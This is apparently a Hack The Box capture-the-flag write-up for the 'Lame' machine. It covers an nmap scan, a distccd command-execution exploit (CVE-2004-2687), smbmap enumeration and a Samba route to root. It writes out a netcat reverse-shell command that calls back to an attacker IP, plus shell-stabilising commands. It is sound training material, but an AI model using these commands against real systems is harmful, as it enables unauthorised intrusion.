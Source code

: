 <div style="display: flex; align-items: center;">
  <img src="https://labs.hackthebox.com/storage/avatars/fb2d9f98400e3c802a0d7145e125c4ff.png" alt="Lame Machine Avatar" style="margin-right: 20px;" width="170"/>
  <div>
    <p style="font-size:35px;"><b>Lame</b></p>
    <p style="font-size:20px;">Linux • <font color="#8ac73e">Easy</font></p>
  </div>
</div>

## Nmap

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -Pn -T4 10.10.10.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-26 06:28 EDT
Nmap scan report for 10.10.10.3
Host is up (0.21s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m20s, deviation: 2h49m43s, median: 19s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-06-26T06:35:52-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 441.21 seconds
```

## distccd

Regarding `distccd` on port `3632`, we find `CVE-2004-2687`:
> distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks.

We will be using [DarkCoderSc's exploit](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855):

We set up a netcat listener, and run the exploit:
```bash
$ python2 distccd-exploit.py -t 10.10.10.3 -p 3632 -c 'nc 10.10.14.55 4444 -e /bin/bash'
```

We have reverse shell! we will also run `script -qc /bin/bash /dev/null` and `export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '` for interactive shell.

![reverse shell as daemon](images/Lame-reverse-shell-daemon.png)

We find the user flag at `/home/makis/user.txt`.

## SMB

I decided to also check out SMB.

```bash
$ smbmap -H 10.10.10.3

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Using the information in [this article](https://medium.com/@e.escalante.jr/network-pentesting-workshop-browsing-smb-shares-and-getting-a-shell-using-the-smbclient-tool-ec0bee4294f1) we will try to get reverse shell.

We get access through `smbclient`, set up a netcat listener, and get access by exploiting `logon`:\
![revese shell root](images/Lame-reverse-shell-root.png)

We can now get the root flag!
